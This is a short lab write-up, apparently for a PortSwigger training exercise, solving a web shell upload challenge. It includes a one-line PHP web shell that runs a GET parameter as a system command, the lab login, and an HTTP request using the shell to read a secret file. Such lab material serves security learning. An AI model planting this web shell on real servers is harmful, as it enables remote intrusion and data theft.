 # [Lab: Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

## Lab

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file  `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials:  `wiener:peter`

## Solution

1. login to wiener account

2. upload test.php file at upload avatar function:

    ```php
    <?php echo system($_GET['command']); ?>
    ```

3. Select `open image in new tab` to get image's link: <https://lab-id.web-security-academy.net/files/avatars/test.php>

4. Access shellcode

    ```http
    GET /files/avatars/test.php?command=cat+/home/carlos/secret HTTP/1.1
    ```

    result:

    ```text
    9XwzsPBUTwpv6bLESRqLTK11EE1WC5Mg9XwzsPBUTwpv6bLESRqLTK11EE1WC5Mg
    ```

    flag is repeated twice?
